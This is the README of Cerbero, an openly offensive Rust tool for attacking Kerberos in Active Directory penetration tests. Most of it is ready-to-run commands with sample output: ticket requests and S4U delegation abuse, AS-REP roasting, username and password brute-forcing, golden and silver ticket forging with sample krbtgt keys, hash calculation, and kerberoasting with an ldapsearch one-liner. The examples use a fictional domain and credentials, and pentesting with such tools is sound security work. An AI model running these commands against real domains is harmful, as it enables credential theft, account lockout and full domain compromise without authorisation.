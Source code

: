 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo install --path .
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [craft](#craft)
- [hash](#hash)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -vv
INFO - Request TGT for Hades
INFO - Save Hades TGT in Hades.ccache
```

Ask TGS:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request ldap/dc01 TGS for Hades
INFO - Save Hades TGS for ldap/dc01 in Hades.ccache
```

Perform S4u2self:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Save Zeus S4U2Self TGS for Hades in Hades.ccache
```

Perform S4u2proxy:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus -s ldap/under.world
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
Allows to `convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --aes-256 fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --ntlm 29f9ab984728cc7d18c8497c9ee76c77 --spn cifs/styx,under.world
```

### Hash
Calculate the Kerberos keys (password hashes) from the user password.

Calculate RC4 key (NT hash):
```shell
$ cerbero hash 'IamtheKingofD34d!!'
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
```

Calculate all the keys:
```shell
$ cerbero hash 'IamtheKingofD34d!!' -u under.world/Hades
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
aes128:fe165dec904772a90a177069e4ea7019
aes256:1304965c35176aeb72e1ae5fdd6c2fe2e901af7223cb75f5eaac25ad667136e7
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
cerbero kerberoast -s services.txt --realm under.world --user Hades -p IamtheKingofD34d!!
```
To get a list of services you could use `ldapsearch`:
```shell
ldapsearch -b "dc=under,dc=world" -w IamtheKingofD34d!! -D "Hades@under.world" "(&(samAccountType=805306368)(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" servicePrincipalName | grep servicePrincipalName: | cut -d ' ' -f 2 | tee services.txt
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command.

```shell
cerbero list hades.ccache
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi)

<!-- cargo-sync-readme end -->
